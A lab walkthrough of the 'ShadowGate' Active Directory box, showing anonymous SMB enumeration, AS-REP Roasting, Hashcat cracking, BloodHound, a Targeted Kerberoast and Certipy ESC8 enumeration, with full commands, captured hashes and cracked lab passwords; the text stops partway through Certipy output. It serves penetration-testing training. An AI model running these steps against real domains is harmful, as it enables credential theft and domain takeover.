In this walkthrough, we will be compromising ShadowGate, an easy-difficulty Active Directory lab from Hack Smarter Labs. The engagement begins with no credentials and only VPN access to the internal network. Anonymous SMB authentication is permitted on the domain controller, allowing us to enumerate domain users and perform an AS-REP Roasting attack against `jtrueblood`. BloodHound enumeration reveals `jtrueblood` holds `GenericWrite` over `bbrown`, which we abuse through a Targeted Kerberoast to recover `bbrown`'s password. With `bbrown` in the `ADCS-READERS` group, Certipy enumeration exposes an ESC8 misconfiguration where the AD CS Web Enrollment endpoint accepts NTLM authentication over HTTP. We use Certipy's built-in relay to capture a coerced NTLM authentication from the Domain Controller via PetitPotam and enroll a certificate using the `DomainController` template. Authenticating via PKINIT recovers the `DC01$` machine account NT hash, and an NTDS dump extracts the `krbtgt` hash for full domain compromise.


Created by: [Ross](https://www.hacksmarter.org/courses/e7586073-d447-41db-8f8e-6bd22576556d)

Let's get started.

## Objective

**ShadowGate** recently completed a corporate acquisition that significantly expanded its internal network, user base, and application footprint. Several business-critical systems were migrated and consolidated under tight operational deadlines to minimize downtime and maintain service continuity.

While functional validation was completed, the organization deferred a comprehensive security assessment due to delivery pressure and staffing constraints. Leadership has since requested an independent penetration test to validate the security posture of the newly created environment and identify any material risk before the next audit cycle.

The assessment will evaluate whether a motivated attacker with standard network access could compromise sensitive systems, escalate privileges, or move laterally within the enterprise environment.

The Hack Smarter team has been authorized to perform a black box internal penetration test against the ShadowGate environment.

The client has provided you with VPN access to their internal network, but no credentials.

## Scope

**Target:** `10.0.30.253`

## Open Ports

Open ports were provided under the machine details tab so we skip port scanning for now. The LDAP banner confirms the domain as `shadow.gate`. Add `shadow.gate` to `/etc/hosts` before continuing.

```
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-15 13:41:20Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: shadow.gate, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: shadow.gate, Site: Default-First-Site-Name)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: shadow.gate, Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: shadow.gate, Site: Default-First-Site-Name)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
```

We see the ports we would expect from a domain controller. DNS on 53, Kerberos on 88, LDAP on 389/636, SMB on 445, RDP on 3389, and WinRM on 5985. We have no credentials, so let's start enumerating with anonymous access.

## SMB Enumeration

We check for anonymous SMB access and enumerate users with NetExec.

```
nxc smb 10.0.30.253 -u '' -p '' --users
```

```
SMB         10.0.30.253    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:shadow.gate) (signing:False) (SMBv1:None)
SMB         10.0.30.253    445    DC01             [+] shadow.gate\: 
SMB         10.0.30.253    445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.0.30.253    445    DC01             Administrator                 2026-01-11 11:33:05 0       Built-in account for administering the computer/domain 
SMB         10.0.30.253    445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.0.30.253    445    DC01             krbtgt                        2026-01-12 02:45:27 0       Key Distribution Center Service Account 
SMB         10.0.30.253    445    DC01             ATHENA                        2026-03-04 15:23:19 0        
SMB         10.0.30.253    445    DC01             mbrownlee                     2026-03-04 15:24:05 0        
SMB         10.0.30.253    445    DC01             bbrown                        2026-01-15 14:24:07 0        
SMB         10.0.30.253    445    DC01             jtrueblood                    2026-04-28 18:14:47 0        
SMB         10.0.30.253    445    DC01             jsmith                        2026-03-04 15:26:29 0        
SMB         10.0.30.253    445    DC01             clocke                        2026-03-04 15:24:32 0        
SMB         10.0.30.253    445    DC01             tclarke                       2026-03-04 15:25:33 0        
SMB         10.0.30.253    445    DC01             jbradford                     2026-03-04 15:24:59 0        
SMB         10.0.30.253    445    DC01             amoss                         2026-03-04 15:25:52 0        
SMB         10.0.30.253    445    DC01             [*] Enumerated 12 local users: SHADOW
```



*Anonymous SMB authentication with 12 domain users enumerated*

Anonymous authentication is permitted and we pull the full domain user list with 12 accounts. The output confirms the hostname as `DC01`, so we add `DC01.shadow.gate` to `/etc/hosts`. SMB signing is disabled. We save the usernames to a `usernames.txt` file for further attacks.

```
Administrator
Guest
krbtgt
ATHENA
mbrownlee
bbrown
jtrueblood
jsmith
clocke
tclarke
jbradford
amoss
```

## AS-REP Roasting

With a list of domain users and no credentials, we can try AS-REP Roasting. This targets accounts that have Kerberos pre-authentication disabled. The KDC will return an AS-REP containing encrypted material that can be cracked offline to recover the plaintext password.

```
nxc ldap 10.0.30.253 -u usernames.txt -p '' --asreproast output.txt
```

```
LDAP        10.0.30.253    389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:shadow.gate) (signing:None) (channel binding:Never) 
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
LDAP        10.0.30.253    389    DC01             $krb5asrep$23$jtrueblood@SHADOW.GATE:afa6ae0248b99c72b9c270c0deadce54$afc895c76e64b3897710b71498c8563a14754b9328f28e32bd456ff99c36bae9ba48f8d64c135562bb7b365ebd3add780d982fd1815aa457812f36bd1621b6de0eef03abb47725bedeee92b497c5f545ba8f678fab626990bf298d648bfe9d86b9d0295d656410665a707294ec190571be48514ebde16280b20a67055f83a648b0f84c31400a16379454d1e7a0d811a320a5489e0f9878f028470cf56921299a1bc765726e28fb619bcbef346ef5c1897583f4b8242570a92b4f0e9fdce20c251b0f3bcf3083cc6e7b17180249bdee11f72c65cd3c67a3eba20636769489db7c38509228e064530c8bbb
```



*AS-REP Roast: jtrueblood hash captured via NetExec*

We find that `jtrueblood` has pre-authentication disabled and capture the AS-REP hash. We save this to `jtrueblood_hash.txt` and crack it with Hashcat.

```
hashcat jtrueblood_hash.txt /usr/share/wordlists/rockyou.txt
```

```
$krb5asrep$23$jtrueblood@SHADOW.GATE:afa6ae0248b99c72b9c270c0deadce54$afc895c76e64b3897710b71498c8563a14754b9328f28e32bd456ff99c36bae9ba48f8d64c135562bb7b365ebd3add780d982fd1815aa457812f36bd1621b6de0eef03abb47725bedeee92b497c5f545ba8f678fab626990bf298d648bfe9d86b9d0295d656410665a707294ec190571be48514ebde16280b20a67055f83a648b0f84c31400a16379454d1e7a0d811a320a5489e0f9878f028470cf56921299a1bc765726e28fb619bcbef346ef5c1897583f4b8242570a92b4f0e9fdce20c251b0f3bcf3083cc6e7b17180249bdee11f72c65cd3c67a3eba20636769489db7c38509228e064530c8bbb:blood_brothers
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$jtrueblood@SHADOW.GATE:afa6ae0248b99c...0c8bbb
Time.Started.....: Thu Jun 11 16:35:57 2026 (4 secs)
Time.Estimated...: Thu Jun 11 16:36:01 2026 (0 secs)
```



*AS-REP Roast and Hashcat crack for jtrueblood*

Cracked. We have `jtrueblood:blood_brothers`. Let's verify these against SMB.

## Access as jtrueblood

```
nxc smb 10.0.30.253 -u 'jtrueblood' -p 'blood_brothers' --shares
```

```
SMB         10.0.30.253    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:shadow.gate) (signing:False) (SMBv1:None)
SMB         10.0.30.253    445    DC01             [+] shadow.gate\jtrueblood:blood_brothers 
SMB         10.0.30.253    445    DC01             [*] Enumerated shares
SMB         10.0.30.253    445    DC01             Share           Permissions     Remark
SMB         10.0.30.253    445    DC01             -----           -----------     ------
SMB         10.0.30.253    445    DC01             ADMIN$                          Remote Admin
SMB         10.0.30.253    445    DC01             C$                              Default share
SMB         10.0.30.253    445    DC01             CertEnroll      READ            Active Directory Certificate Services share
SMB         10.0.30.253    445    DC01             IPC$            READ            Remote IPC
SMB         10.0.30.253    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.0.30.253    445    DC01             SYSVOL          READ            Logon server share 
```



*Validating jtrueblood credentials with NetExec*

Credentials confirmed. We see a `CertEnroll` share, which indicates AD CS is deployed in this environment. Let's collect BloodHound data and map our permissions.

## BloodHound Enumeration

```
nxc ldap 10.0.30.253 -u 'jtrueblood' -p 'blood_brothers' --bloodhound --collection All --dns-server 10.0.30.253
```

We import the data into BloodHound and review the outbound object control for `jtrueblood`. BloodHound shows `jtrueblood` holds `GenericWrite` over `bbrown`, with a suggested Targeted Kerberoast as the abuse path.



*BloodHound GenericWrite: jtrueblood over bbrown*

We also notice that `bbrown` is a member of the `ADCS-READERS` group, which could give us a path into AD CS later.



*bbrown group membership showing ADCS-READERS in BloodHound*

## Targeted Kerberoast

Since `jtrueblood` has `GenericWrite` over `bbrown`, we can perform a Targeted Kerberoast. `GenericWrite` allows us to set a Service Principal Name (SPN) on `bbrown`'s account, making it Kerberoastable. [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast) automates this by setting the SPN, requesting the TGS, and cleaning up after.

```
./targetedKerberoast.py -v -d 'shadow.gate' -u 'jtrueblood' -p 'blood_brothers'
```

```
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (bbrown)
[+] Printing hash for (bbrown)
$krb5tgs$23$*bbrown$SHADOW.GATE$shadow.gate/bbrown*$16e9f43770ea4f6e3d1c9d37213c9fb3$e40993873f615f2a35effc17339aa525fc1f82e78ca26a21e9066e5cf328897bfcb17815e786887a1d66b4875394a7fe03e38181447e6e14186a89c9abc2627837dfab3b148a781bb1605c9df6891ffaa774ec35e2a26cc67787c4e388a14da15e0c1c496709fc971d6c130d5e67d5d5a6ff61d58ffcc3cd9c92013e705351dfa20e5aff1546e44a3eaa1d8f7b1370587037599e15aeb58c6dd7de3c82a85cc97f2ca337bbcd58cb922c91af35a6303dd69cc6af90a24e3ad6a6941111d6e992de28654d3dca5278ad8cd003243c6ed0bfc08c7b08db06874df215e25a7eb3722bdf6468e037cde0f05b7653c6d8903784fb4ea4f6f6a299e5fd9b39437badb07c40417f12bd66ff940d39ae86fe5d3a03e542a8fdcd1ae2fe4e7d19932f4269d0b9b9ec25629852dbc82685a5effd09ed0c593e5dcbd9376c16b902f0b16ee34442d15eb8daf244236cc66636cd22806529d6990b5b34932442117c983dd3f5b489fd0f05d3e48edec8d94bd4805947b55931d3555557fad39d90dc8fc53319267d5b30edb12e4939ab375278e11cba1822628f3e668fff22bbe2c9f3da035f61a4fb0eb339277da13cf5e09a7ee60e3509370ef967b05be05e6f224f540e268a55e59ea73a58025bec3d404ac8fc575a843e9799658a1bc500c6c35535038a628a342fc2c4be0653c1cc5122b57f1f03d19a196a4fbbc01fe60b95211dfa9e21df48d7207539bff68f47b2c96226fed623df1a13abc9cf6ac57c2e99352060217198897b6acd89cc5c6305937bd623889b718a7dded5bfd428205390d18ced7eff4c1a2e2ac4c25a6421317b257e9b8a7f57c9ea84604cc926268eebf60b1c57007529e6b53ceb2c2e6f9e8a96e7609dd48e2a94c2e6e366e6921f9395243e465dbc6f938a3fe2d3842165b4dba136ef237461841c0a7896b9650184af08dfed2e9909d3212b047af140ac92d8116a9090b01683335ad1f467c3ed0f195f0222f1e989be95eebc0f12e417c28bd5d5d0542ae5d551683453a202d6d24fa08bb1ffbe4f4fd000f14cb23c75560ed8e23768218524247097d632337a103dc8237c08428d5f7006b1df671d51cefa7363a63746f7295eb052c4b3a10d84352fa578ff431475b09161492ecab9c64bd22cd52f173ec16f9e1dcd6d97eaebe9553be8f903bc152a029e6bd1158795f10ddf99d20cf6fb0202f1d27ed45d1a018c8a789c434bbe54e9faafd2c1bd2d37cb3d9ef437f148bbf180db2d882760b1d1400da3e95382d025d8181971548d4f2b026aa722fdcd42df477907c62546d0312c5017f44dc2326ce8a248daee7bdfee8f4f15713b85c4dd7fb6a55b368a1f62ae9d0d9490849036586e5f32b0a8cd4cfe3034355ec135f3a6fd0c0a6dfbb8831355a8a5f61a03a6449a5350f62522cb487eb3d0884cc7dc4cc75d1c39d185e592e4653306d916aae44a5cc3bde6757d5b34691de8df8cd1c52dab6a279f0d5bc703d7c500994a0c1ede5ab56c1595efb6e59b51e23aff
[VERBOSE] SPN removed successfully for (bbrown)
```



*Targeted Kerberoast: SPN set and TGS hash captured for bbrown*

We save the hash to `bbrown_hash.txt` and crack it with Hashcat.

```
hashcat bbrown_hash.txt /usr/share/wordlists/rockyou.txt
```

```
$krb5tgs$23$*bbrown$SHADOW.GATE$shadow.gate/bbrown*$16e9f43770ea4f6e3d1c9d37213c9fb3$e40993873f615f2a35effc17339aa525fc1f82e78ca26a21e9066e5cf328897bfcb17815e786887a1d66b4875394a7fe03e38181447e6e14186a89c9abc2627837dfab3b148a781bb1605c9df6891ffaa774ec35e2a26cc67787c4e388a14da15e0c1c496709fc971d6c130d5e67d5d5a6ff61d58ffcc3cd9c92013e705351dfa20e5aff1546e44a3eaa1d8f7b1370587037599e15aeb58c6dd7de3c82a85cc97f2ca337bbcd58cb922c91af35a6303dd69cc6af90a24e3ad6a6941111d6e992de28654d3dca5278ad8cd003243c6ed0bfc08c7b08db06874df215e25a7eb3722bdf6468e037cde0f05b7653c6d8903784fb4ea4f6f6a299e5fd9b39437badb07c40417f12bd66ff940d39ae86fe5d3a03e542a8fdcd1ae2fe4e7d19932f4269d0b9b9ec25629852dbc82685a5effd09ed0c593e5dcbd9376c16b902f0b16ee34442d15eb8daf244236cc66636cd22806529d6990b5b34932442117c983dd3f5b489fd0f05d3e48edec8d94bd4805947b55931d3555557fad39d90dc8fc53319267d5b30edb12e4939ab375278e11cba1822628f3e668fff22bbe2c9f3da035f61a4fb0eb339277da13cf5e09a7ee60e3509370ef967b05be05e6f224f540e268a55e59ea73a58025bec3d404ac8fc575a843e9799658a1bc500c6c35535038a628a342fc2c4be0653c1cc5122b57f1f03d19a196a4fbbc01fe60b95211dfa9e21df48d7207539bff68f47b2c96226fed623df1a13abc9cf6ac57c2e99352060217198897b6acd89cc5c6305937bd623889b718a7dded5bfd428205390d18ced7eff4c1a2e2ac4c25a6421317b257e9b8a7f57c9ea84604cc926268eebf60b1c57007529e6b53ceb2c2e6f9e8a96e7609dd48e2a94c2e6e366e6921f9395243e465dbc6f938a3fe2d3842165b4dba136ef237461841c0a7896b9650184af08dfed2e9909d3212b047af140ac92d8116a9090b01683335ad1f467c3ed0f195f0222f1e989be95eebc0f12e417c28bd5d5d0542ae5d551683453a202d6d24fa08bb1ffbe4f4fd000f14cb23c75560ed8e23768218524247097d632337a103dc8237c08428d5f7006b1df671d51cefa7363a63746f7295eb052c4b3a10d84352fa578ff431475b09161492ecab9c64bd22cd52f173ec16f9e1dcd6d97eaebe9553be8f903bc152a029e6bd1158795f10ddf99d20cf6fb0202f1d27ed45d1a018c8a789c434bbe54e9faafd2c1bd2d37cb3d9ef437f148bbf180db2d882760b1d1400da3e95382d025d8181971548d4f2b026aa722fdcd42df477907c62546d0312c5017f44dc2326ce8a248daee7bdfee8f4f15713b85c4dd7fb6a55b368a1f62ae9d0d9490849036586e5f32b0a8cd4cfe3034355ec135f3a6fd0c0a6dfbb8831355a8a5f61a03a6449a5350f62522cb487eb3d0884cc7dc4cc75d1c39d185e592e4653306d916aae44a5cc3bde6757d5b34691de8df8cd1c52dab6a279f0d5bc703d7c500994a0c1ede5ab56c1595efb6e59b51e23aff:12345678
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*bbrown$SHADOW.GATE$shadow.gate/bbrown*...e23aff
Time.Started.....: Thu Jun 11 17:11:31 2026 (0 secs)
Time.Estimated...: Thu Jun 11 17:11:31 2026 (0 secs)
```



*Hashcat crack for bbrown: password recovered from TGS-REP hash*

Cracked instantly. We have `bbrown:12345678`. Let's verify.

## Access as bbrown

```
nxc smb 10.0.30.253 -u 'bbrown' -p '12345678' --shares
```

```
SMB         10.0.30.253    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:shadow.gate) (signing:False) (SMBv1:None)
SMB         10.0.30.253    445    DC01             [+] shadow.gate\bbrown:12345678 
SMB         10.0.30.253    445    DC01             [*] Enumerated shares
SMB         10.0.30.253    445    DC01             Share           Permissions     Remark
SMB         10.0.30.253    445    DC01             -----           -----------     ------
SMB         10.0.30.253    445    DC01             ADMIN$                          Remote Admin
SMB         10.0.30.253    445    DC01             C$                              Default share
SMB         10.0.30.253    445    DC01             CertEnroll      READ            Active Directory Certificate Services share
SMB         10.0.30.253    445    DC01             IPC$            READ            Remote IPC
SMB         10.0.30.253    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.0.30.253    445    DC01             SYSVOL          READ            Logon server share 
```



*Validating bbrown credentials with NetExec*

Credentials confirmed. No new shares compared to `jtrueblood`. Back in BloodHound, `bbrown` has no outbound object control, but the `ADCS-READERS` group membership stands out. Let's enumerate AD CS for misconfigurations.

## Certipy Enumeration

Since `bbrown` is a member of the `ADCS-READERS` group, we use [Certipy](https://github.com/ly4k/Certipy) to enumerate AD CS.

```
certipy-ad find -u 'bbrown' -p '12345678' -dc-ip '10.0.30.253' -stdout -vulnerable
```

```
Certificate Authorities
  0
    CA Name                             : shadow-DC01-CA
    DNS Name                            : DC01.shadow.gate
    Certificate Subject                 : CN=shadow-DC01-CA, DC=shadow, DC=gate
    Certificate Serial Number           : 749A4BA2BEA3CFBC41ECDFAEE502E46C
    Certificate Validity Start          : 2026-01-12 02:50:31+00:00
    Certificate Validity End            : 2046-01-12 03:00:31+00:00
    Web Enrollment
      HTTP
        Enabled                         : True
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : SHADOW.GATE\Administrators
      Access Rights
        ManageCa                        : SHADOW.GATE\Administrators
                                          SHADOW.GATE\Domain Admins
                                          SHADOW.GATE\Enterprise Admins
        ManageCertificates              : SHADOW.GATE\Administrators
                                          SHADOW.GATE\Domain Admins
                                          SHADOW.GATE\Enterprise Admins
        Enroll                          : SHADOW.GATE\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled over HTTP.
Certificate Templates                   : [!] Could not find any certificate templates
```



*Certipy ESC8: Web Enrollment enabled over HTTP on shadow-DC01-CA*

Certipy flags an ESC8 vulnerability: Web Enrollment is enabled over HTTP with no HTTPS enforcement. No vulnerable templates were returned with the `-vulnerable` flag though, so we run Certipy again without it to see all templates.

```
certipy-ad find -u 'bbrown' -p '12345678' -dc-ip '10.0.30.253' -stdout
```

```
    Template Name                       : DomainController
    Display Name                        : Domain Controller
    Certificate Authorities             : shadow-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireDirectoryGuid
                                          SubjectAltRequireDns
                                          SubjectRequireDnsAsCn
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollment
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 1
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2026-01-12T03:00:32+00:00
    Template Last Modified              : 2026-01-15T01:57:45+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SHADOW.GATE\Enterprise Read-only Domain Controllers
                                          SHADOW.GATE\Domain Admins
                                          SHADOW.GATE\Domain Controllers
                                          SHADOW.GATE\Enterprise Admins
                                          SHADOW.GATE\Enterprise Domain Controllers
      Object Control Permissions
        Owner                           : SHADOW.GATE\Enterprise Admins
        Full Control Principals         : SHADOW.GATE\Domain Admins
                                          SHADOW.GATE\Enterprise Admins
